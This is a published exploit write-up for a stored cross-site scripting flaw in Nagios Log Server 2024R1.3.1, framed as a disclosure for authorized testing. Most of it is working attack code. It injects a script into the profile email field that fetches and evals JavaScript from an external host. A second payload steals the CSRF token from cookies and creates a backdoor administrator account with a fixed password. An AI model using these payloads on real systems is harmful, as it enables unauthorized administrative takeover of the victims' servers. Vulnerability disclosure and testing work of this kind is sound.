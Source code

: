 # Exploit Title: Stored XSS Vulnerability in Nagios Log Server (Privilege Escalation to Admin)
# Date: 2025-04-02
# Exploit Author: Seth Kraft
# Vendor Homepage: https://www.nagios.com/
# Vendor Changelog: https://www.nagios.com/changelog/#log-server
# Software Link: https://www.nagios.com/products/log-server/download/
# Version: 2024R1.3.1 and below
# Tested On: Nagios Log Server 2024R1.3.1 (default configuration, Ubuntu 20.04)
# CWE: CWE-79, CWE-352, CWE-285, CWE-269, CWE-602
# CVSS: 9.3 (CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:R/S:C/VC:H/VI:H/VA:H)
# Type: Stored Cross-Site Scripting (XSS), Privilege Escalation
# Exploit Risk: Critical

# Disclosure
For research and authorized testing only. Do not use against systems without permission.

# Description:
A stored XSS vulnerability in Nagios Log Server 2024R1.3.1 allows a low-privileged user to inject
malicious JavaScript into the 'email' field of their profile. When an administrator views the audit logs,
the script executes, resulting in privilege escalation via unauthorized admin account creation.
The vulnerability can be chained to achieve remote code execution (RCE) in certain configurations.

# PoC

1. Log in as a standard (non-admin) user.
2. Navigate to the profile update endpoint:

   http://<target-ip>/nagioslogserver/profile/update

3. Inject the following payload into the email field:

```javascript
<script>
fetch("https://<EXTERNAL-HOST>/xss.js")
  .then(response => response.text())
  .then(scriptText => eval(scriptText))
  .catch(console.error);
</script>
```

4. Host the xss.js payload on your external server with the following content:

```javascript
(function() {
  var csrfTokenMatch = document.cookie.match(/csrf_ls=([^;]+)/);
  if (!csrfTokenMatch) return;
  var csrfToken = encodeURIComponent(csrfTokenMatch[1]);

  var requestBody = "csrf_ls=" + csrfToken +
    "&name=backdoor" +
    "&email=hacker@example.com" +
    "&username=backdoor" +
    "&password=Password123!" +
    "&password2=Password123!" +
    "&auth_type=admin" +
    "&apiaccess=1" +
    "&language=en_US" +
    "&account_type=local";

  fetch("http://<target-ip>/nagioslogserver/admin/users/create", {
    method: "POST",
    headers: { "Content-Type": "application/x-www-form-urlencoded" },
    body: requestBody
  })
  .then(response => response.text())
  .then(console.log)
  .catch(console.error);
})();
```

5. Wait for an administrator to view the audit logs. The JavaScript will execute, creating a new admin account:

Username: backdoor
Password: Password123!
